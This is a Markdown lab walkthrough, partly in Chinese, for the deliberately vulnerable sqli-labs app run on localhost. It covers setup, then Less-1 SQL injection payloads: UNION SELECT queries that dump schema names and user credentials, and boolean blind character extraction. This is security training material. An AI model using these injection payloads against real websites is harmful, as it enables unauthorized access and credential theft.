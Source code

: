 SQLI labs to test error based, Blind boolean based, Time based.

## 1. Install

安装依赖

```
┌──(sec@debian)-[~]
└─$ sudo apt install -y apache2 mariadb-server mariadb-client php php-mysqli
```

Clone

```
┌──(sec@debian)-[~]
└─$ sudo -E git clone https://github.com/skyblueee/sqli-labs-php7.git /var/www/html/sqli-labs
```

## 2. Init

Configure

```
┌──(sec@debian)-[~]
└─$ sudo nano -l /var/www/html/sqli-labs/sql-connections/db-creds.inc
```

```php
4 $dbuser ='root';
5 $dbpass ='123456';
```

Click `Setup/reset Database for labs` 

> http://127.0.0.1:60080/sqli-labs/

## 3. Usage

Visit

> [Page-1(Basic Challenges)](http://127.0.0.1:60080/sqli-labs/#fm_imagemap)
>
> [Page-2 (Advanced Injections)](http://127.0.0.1:60080/sqli-labs/index-1.html)
>
> [Page-3 (Stacked Injections)](http://127.0.0.1:60080/sqli-labs/index-2.html)
>
> [Page-4 (Challenges)](http://127.0.0.1:60080/sqli-labs/index-3.html)

### 3.1. Less-1

> http://127.0.0.1:60080//sqli-labs/Less-1/

### 3.1.1. 准备

**判断是否存在 sql 注入**

提交常见的闭合符号 `'`

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1'
```

> 报错

注释

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' --+
```

> 正常

手动闭合

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and '1
```

> 正常，存在字符型 sql 注入

**判断闭合方式**

提交转义符 `\` 

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1\
```

> 报错

查看报错

```
'1\' LIMIT 0,1
```

> `\` 后的 `'` 被转义，无法闭合，闭合符号为 `'`

**判断字段数量**

利用 `order by` 判断

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' order by 4 --+
```

> 当写入使用第 4 个字段排序时报错，说明后台查询有 3 个字段

### 3.1.2. 联合查询

**爆显示位置**

已知有 3 个字段，提交三个字段查看显示位置

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

可以看到只有 2，3 处有回显

![可以看到只有 2，3 处有回显](./../../../../../images/sqli-labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%8F%AF%E4%BB%A5%E7%9C%8B%E5%88%B0%E5%8F%AA%E6%9C%89%202%EF%BC%8C3%20%E5%A4%84%E6%9C%89%E5%9B%9E%E6%98%BE.png)

> 因此只能在 2，3  处构造语句

**爆库**

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=-1' union select 1,2,database() --+
```

得到数据库名为 `secrity`

![得到数据库名为 security](./../../../../../images/sqli-labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%BE%97%E5%88%B0%E6%95%B0%E6%8D%AE%E5%BA%93%E5%90%8D%E4%B8%BA%20security.png)

**爆表**

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) --+
```

得到数据表名

![得到数据表名](./../../../../../images/sqli-labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%BE%97%E5%88%B0%E6%95%B0%E6%8D%AE%E8%A1%A8%E5%90%8D.png)

> 根据数据表名选择数据表

**爆字段**

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users') --+
```

得到字段名

![得到字段名](./../../../../../images/sqli-labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%BE%97%E5%88%B0%E5%AD%97%E6%AE%B5%E5%90%8D.png)

**拖库**

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(username,'_',password) from users) --+
```

为了方便显示可以换行显示

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(username,0x5F,password,0x3C,0x68,0x72,0x2F,0x3E) from users) --+
```

### 3.1.3. 布尔盲注

**爆库**

**判断数据库长度**

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and (length(database())=8) --+
```

> 长度为 8

**取数据库名的每个字符的 ascii 码**

第一个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),1,1)) = 115 --+
```

> 第一个码为 115 是 s

第二个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),2,1)) = 101 --+
```

> 第二个码为 101 是 e

第三个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),3,1)) = 99 --+
```

> 第二个码为 99 是 c

第四个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),4,1)) = 117 --+
```

> 第四个码为 117 是 u

第五个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),5,1)) = 114 --+
```

> 第五个码为 114 是 r

第六个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),6,1)) = 105 --+
```

> 第六个码为 105 是 i

第七个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),7,1)) = 116 --+
```

> 第七个码 为116 是 t

第八个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),8,1)) = 121 --+
```

> 第八个码为 121 是 y

数据库名为 `security`

**爆表**

**确定当前库中表的个数**

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

### 3.2. Less-2

---

Refrences

- [sqli-labs](https://github.com/Audi-1/sqli-labs)
